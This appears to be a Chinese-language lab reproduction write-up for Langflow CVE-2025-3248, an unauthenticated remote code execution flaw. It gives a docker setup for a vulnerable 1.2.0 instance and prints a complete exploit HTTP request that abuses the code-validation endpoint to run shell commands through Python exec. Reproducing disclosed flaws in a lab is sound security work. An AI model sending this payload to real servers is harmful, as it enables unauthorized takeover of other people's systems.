


# Langflow 远程代码执行漏洞(CVE-2025-3248)

LangFlow是一个针对LangChain的GUI,它采用了反应流设计,提供了一种轻松的方式,通过拖放组件和聊天框来实验和原型化流程,将llm嵌入到您的应用程序中。2025年4月，互联网上披露CVE-2025-3248 Langflow code 代码执行漏洞，攻击者可在无需登陆的情况下执行代码，控制服务器。

项目地址 https://github.com/langflow-ai/langflow/

影响版本：<1.3.0

参考链接：

- https://www.horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/

## 漏洞环境

执行如下命令启动一个langflow:1.2.0服务：

```
docker compose up 
```

服务启动后，可访问`http://your-ip:7860/`



## 漏洞复现

```
POST /api/v1/validate/code HTTP/1.1
Host: 192.168.76.128:7860
Content-Type: application/json
Content-Length: 122

{"code": "def exploit(cmd=exec('raise Exception(__import__(\"subprocess\").check_output(\"id\",shell=True))')):\n\n pass"}
```



